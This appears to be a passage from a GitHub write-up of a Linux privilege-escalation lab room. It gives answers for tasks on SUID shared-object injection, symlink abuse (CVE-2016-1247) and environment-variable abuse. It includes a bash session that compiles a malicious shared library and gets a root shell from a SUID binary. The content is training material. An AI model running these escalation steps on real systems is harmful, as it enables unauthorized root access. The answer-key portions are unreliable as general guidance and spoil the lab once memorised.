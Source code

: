 ```bash
TCM@debian:~/.config$ nano libcalc.c
TCM@debian:~/.config$ gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
TCM@debian:~/.config$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1#
```


<br>

<h2>Task 12 . Privilege Escalation - SUID (Symlinks)</h2>

<h3 align="left">Answer the questions below</h3>

> 12.1. <em>What CVE is being exploited in this task?</em><br><a id='12.1'></a>
>> <strong><code>CVE-2016-1247</code></strong><br>

![image](https://github.com/user-attachments/assets/6768761c-0772-498f-8ce2-3a6e5d2593bf)

![image](https://github.com/user-attachments/assets/48a5cbe0-a477-4af1-bfe2-90c0ee505566)

> 12.2. <em>What binary is SUID enabled and assists in the attack?</em><br><a id='12.2'></a>
>> <strong><code>sudo</code></strong><br>

![image](https://github.com/user-attachments/assets/40d961ec-5132-4453-adff-8b02b3c21f04)

<br>

<h2>Task 13 . Privilege Escalation - SUID (Environment Variables #1)</h2>

<h3 align="left">Answer the question below</h3>

> 13.1. <em>What is the last line of the "strings /usr/local/bin/suid-env" output?</em><br><a id='13.1'></a>
>> <strong><code>service apache2 start</code></strong><br>

![image](https://github.com/user-attachments/assets/6a20b719-7dbc-425a-8138-37969805461e)

![image](https://github.com/user-attachments/assets/56519cff-37b1-46ac-8205-7e0047c6e265)

![image](https://github.com/user-attachments/assets/f674f2d2-3b2c-43c6-b22e-4bab7a382102)

<br>

<h2>Task 14 . Privilege Escalation - SUID (Environment Variables #2)</h2>

<h3 align="left">Answer the question below</h3>

> 14.1. <em>What is the last line of the "strings /usr/local/bin/suid-env2" output?</em><br><a id='14.1'></a>
>> <strong><code>/usr/sbin/service apache2 start</code></strong><br>
